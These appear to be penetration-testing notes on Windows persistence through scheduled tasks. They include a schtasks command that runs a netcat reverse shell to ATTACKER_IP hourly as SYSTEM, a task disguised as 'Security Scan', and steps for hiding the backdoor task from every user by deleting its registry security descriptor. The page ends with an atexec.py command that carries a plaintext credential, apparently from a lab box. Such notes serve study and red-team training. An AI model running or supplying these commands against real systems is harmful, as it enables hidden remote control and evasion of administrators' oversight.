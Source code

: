 # Task Scheduler

### Schtasks Quick Reference

```
#normal task 15 minutes 
SCHTASKS /create /sc minute /mo 15 /tn "Security Scan" /tr "C:\Windows\System32\spool\drivers\color\patch.exe" 
#query all 
SCHTASKS /query
#delete task 
schtasks /delete /tn "\Security Scan" /F
#Query Specific task by name
schtasks /query /fo LIST /tn "Daily Reboot"
```

* The most common way to schedule tasks is using the built-in Windows task scheduler.
* Let's create a task that runs a reverse shell every single hour.

```
schtasks /create /sc hourly /mo 1 /tn TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
SUCCESS: The scheduled task "TaskBackdoor" has successfully been created.
```

* To check if our task was successfully created, we can use the following command:

```
schtasks /query /tn TaskBackdoor
Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
TaskBackdoor                         5/25/2022 8:08:00 AM   Ready
```

### Making Our Task Invisible

* Our task should be up and running by now, but if the compromised user tries to list its scheduled tasks, our backdoor will be noticeable.
* To further hide our scheduled task, we can make it invisible to any user in the system by deleting its `Security Descriptor (SD)`. The security descriptor is simply an ACL that states which users have access to the scheduled task.
* If your user isn't allowed to query a scheduled task, you won't be able to see it anymore, as Windows only shows you the tasks that you have permission to use. -
* Deleting the SD is equivalent to disallowing all users' access to the scheduled task, including administrators.
* The security descriptors of all scheduled tasks are stored in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`. You will find a registry key for every task, under which a value named "`SD`" contains the security descriptor.
* **You can only erase the value if you hold `SYSTEM` privileges.**
* To hide our task, let's delete the `SD` value for the "`TaskBackdoor`" task we created before. To do so, we will use `psexec` to open Regedit with SYSTEM privileges:

```
c:\tools\pstools\PsExec64.exe -s -i regedit
```

* We will then delete the security descriptor for our task:
*

    <figure><img src="https://user-images.githubusercontent.com/75596877/181060133-34619dcd-33be-40f5-aa62-2fead6f2b4de.png" alt=""><figcaption></figcaption></figure>
* If we try to query our service again, the system will tell us there is no such task:

```
schtasks /query /tn TaskBackdoors
ERROR: The system cannot find the file specified.
```

### atexec Scheduled Task Execution

```
python3 atexec.py CICADA/emily.oscars:'Q!3@Lp#M6b*7t*Vt'@10.10.11.35 dir
```
